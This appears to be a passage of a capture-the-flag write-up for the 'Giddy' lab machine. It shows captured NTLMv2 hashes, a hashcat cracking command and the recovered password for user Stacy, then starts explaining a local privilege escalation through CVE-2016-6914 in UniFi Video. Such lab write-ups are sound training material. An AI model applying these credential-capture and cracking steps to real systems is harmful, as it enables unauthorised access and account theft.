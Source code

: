 ```
[*] AUTHENTICATE_MESSAGE (GIDDY\Stacy,GIDDY)
[*] User GIDDY\Stacy authenticated successfully
[*] Stacy::GIDDY:aaaaaaaaaaaaaaaa:d588d082935b966f9496015349265337:010100000000000080959c650809da012061443fc6c3418d00000000010010006c0041007a006e0078004c0071006400030010006c0041007a006e0078004c00710064000200100051006d00750059004900570050004d000400100051006d00750059004900570050004d000700080080959c650809da01060004000200000008003000300000000000000000000000003000009723e83d8a928d0125f1cec4f75fde0d3e213ae439b0ac33155a857a38b9ed480a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003600000000000000000000000000
[*] Connecting Share(1:share)
[*] AUTHENTICATE_MESSAGE (GIDDY\Stacy,GIDDY)
[*] User GIDDY\Stacy authenticated successfully
[*] Stacy::GIDDY:aaaaaaaaaaaaaaaa:1f196e17d13979236840229f936717c7:010100000000000080959c650809da01dab3557c6f0f6c8d00000000010010006c0041007a006e0078004c0071006400030010006c0041007a006e0078004c00710064000200100051006d00750059004900570050004d000400100051006d00750059004900570050004d000700080080959c650809da01060004000200000008003000300000000000000000000000003000009723e83d8a928d0125f1cec4f75fde0d3e213ae439b0ac33155a857a38b9ed480a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003600000000000000000000000000
[*] Disconnecting Share(1:share)
[*] Closing down connection (10.10.10.104,49713)
[*] Remaining connections []
```

Using this command, I can crack the hash. `NTLMv2Hash.txt` contains the hash, and `rockyou.txt` is the wordlist I am cracking the hash against.
```
$ hashcat -m 5600 NTLMv2Hash.txt rockyou.txt
```

There was my set of credentials.
```
STACY::GIDDY:xNnWo6272k7x
```

![]({{ image_path }}{{ page.name }}/Screenshot 2023-10-27 at 12.32.10 PM.png)

And there was my PowerShell access.
![]({{ image_path }}{{ page.name }}/Screenshot 2023-10-27 at 12.32.42 PM.png)

## Privilege Escalation
Looking around, I found a file named `unifivideo`. The sole contents seemed to be ASCII text reading `stop`. 

![]({{ image_path }}{{ page.name }}/Screenshot 2023-10-27 at 12.37.14 PM.png)
I researched programs this file may be related to and discovered it was related to "Ubiquiti UniFi Video". Searching for "unifivideo exploit" led me to CVE-2016-6914 (Ubiquiti UniFi Video 3.7.3 - Local Privilege Escalation).

This exploit exists due to the fact "Ubiquiti UniFi Video for Windows" is installed in `C:\ProgramData\unifi-video\` by default. This program also comes with the "Ubiquiti UniFi Video" service, which runs as the `NT AUTHORITY/SYSTEM` account. 

Because it runs as `NT AUTHORITY/SYSTEM` an attacker can take advantage of this if they have permission to control what is being executed. Luckily, this is possible: the `C:\ProgramData` directory's default permissions allow any user to write to the contents of the directory. Because the `C:\ProgramData\unifi-video` has no explicit permissions, the default permissions of the `C:\ProgramData` directory are inherited. 
